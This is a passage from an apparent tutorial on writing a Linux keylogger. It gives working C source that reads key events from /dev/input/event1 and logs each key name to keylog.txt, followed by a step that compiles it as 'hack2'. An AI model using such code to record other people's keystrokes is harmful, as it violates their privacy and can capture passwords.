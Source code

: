 ```cpp
    case KEY_F2: return "F2";
    default: return "UNKNOWN";
  }
}

int main(int argc, char *argv[]) {
  const char *dev = "/dev/input/event1"; // in my case event1
  struct input_event ev;
  FILE *logfile = fopen("keylog.txt", "a");
  if (!logfile) {
    perror("fopen");
    return 1;
  }

  int fd = open(dev, O_RDONLY);
  if (fd < 0) {
    perror("open");
    fclose(logfile);
    return 1;
  }
  printf("keylogger started. press ESC to exit.\n");
  while (1) {
    ssize_t n = read(fd, &ev, sizeof(struct input_event));
    if (n == (ssize_t)sizeof(struct input_event)) {
      if (ev.type == EV_KEY && ev.value == 1) { // keydown
        const char *keyname = keycode_to_string(ev.code);
        printf("key pressed: %s (code %d)\n", keyname, ev.code);
        fprintf(logfile, "%s\n", keyname);
        fflush(logfile);
        if (ev.code == KEY_ESC) {
          printf("ESC pressed, exiting.\n");
          break;
        }
      }
    }
  }

  close(fd);
  fclose(logfile);
  return 0;
}
```

If desired, you can even display Unicode symbols (more difficult - requires a keyboard layout)       

### demo 2

Let's go to see second example in action. Compie it:    

```bash
gcc -o hack2 hack2.c
```
